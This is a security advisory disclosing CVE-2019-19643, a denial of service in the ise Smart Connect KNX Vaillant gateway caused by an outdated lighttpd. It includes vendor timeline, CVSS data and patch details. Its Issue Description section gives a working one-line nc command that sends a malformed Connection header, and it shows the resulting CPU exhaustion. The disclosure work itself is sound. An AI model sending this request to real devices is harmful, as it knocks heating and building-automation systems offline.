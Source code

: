 ```yaml
---
layout: post
title:  "CVE-2019-19643 ise smart connect KNX Vaillant 1.2.839 Denial of Service"
date:   2020-08-12 21:55:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-19643
- Author: psytester
- Title: ise smart connect KNX Vaillant 1.2.839 Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 12.08.2020
- Updated: --
- Vendor: ise Individuelle Software und Elektronik GmbH
- Product: ise Smart Connect KNX Vaillant
- Vendor contacted: 26.11.2019
- Vendor confirmation: 05.12.2019 with possible release date mid of 2020
- Vendor patch: 2.0.607 since 10.08.2020
- Vendor Reference: --
- Affected Firmware version: 1.2.839 tested


# Background

Product overview on [vendor's website](https://www.ise.de/en/products/ise_smart_connect_KNX_Vaillant).<br>
This device connects a Vaillant heater to KNX building automation and has a TCP/IP stack for its configuration.


# Issue Description

The analysis of the underlying operating system of the ise smart connect KNX Vaillant revealed that the BusyBox version v1.27.2 from 2017 with a Buildroot 2012.11.1 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot: 2012.11.1
BusyBox: v1.27.2 from August 2017
Linux kernel: 3.2.20 from Jun 2012
dropbear: 2012.55
OpenSSL: 1.0.1c from May 2012
lighttpd: 1.4.31
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the ise smart connect KNX Vaillant does not react anymore because the resources are used up and we have a Denial of Service:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-19643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19643)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# lighttpd fix in new ise smart connect KNX Vaillant version 2.0.607
Base software is partly updated now with
```
Buildroot: 2018.02
BusyBox: v1.27.2 still from from August 2017
Linux kernel: 3.2.98 from Jan 2018
dropbear: 2017.75
OpenSSL: 1.0.2n from Dec 2017
nginx: 1.12.2 is used instead of lighttpd
```


# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
